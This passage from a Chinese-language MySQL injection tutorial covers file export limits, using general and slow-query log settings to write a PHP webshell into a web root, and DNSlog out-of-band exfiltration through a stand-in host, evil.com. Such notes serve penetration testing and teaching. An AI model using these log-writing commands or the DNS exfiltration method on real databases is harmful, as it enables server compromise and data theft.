 - into outfile 是导出所有数据，适合导出库
- into dumpfile 只能导出一行数据

限制：

- secure-file-priv无值或为可利用的目录
- 需知道目标目录的绝对目录地址
- 目标目录可写，mysql的权限足够。
### 日志包含
由于mysql在5.5.53版本之后，secure-file-priv的值默认为NULL，这使得正常读取文件的操作基本不可行。我们这里可以利用mysql生成日志文件的方法来绕过。
mysql日志文件的一些相关设置可以直接通过命令来进行：
```sql
//请求日志
mysql> set global general_log_file = '/var/www/html/1.php';
mysql> set global general_log = on;
//慢查询日志
mysql> set global slow_query_log_file='/var/www/html/2.php'
mysql> set global slow_query_log=1;
//还有其他很多日志都可以进行利用
...
```
之后让数据库执行满足记录条件的恶意语句即可，具体可查看phpmyadmin通过日志写入webshell相关的教程
限制：

- 权限够，可以进行日志的设置操作
- 知道目标目录的绝对路径
## DNSlog外带数据盲注
DNSLOG，简单的说，就是关于特定网站的DNS查询的一份记录表。若A用户对B网站进行访问/请求等操作，首先会去查询B网站的DNS记录，由于B网站是被我们控制的，便可以通过某些方法记录下A用户对于B网站的DNS记录信息。此方法也称为OOB注入。
如何用DNSLOG带出数据？若我们想要查询的数据为：aabbcc，那么我们让mysql服务端去请求aabbcc.evil.com，通过记录evil.com的DNS记录，就可以得到数据：aabbcc。

![image.png](./MySQL注入基础.assets/2023_05_19_10_41_21_T48bBnfv.png)
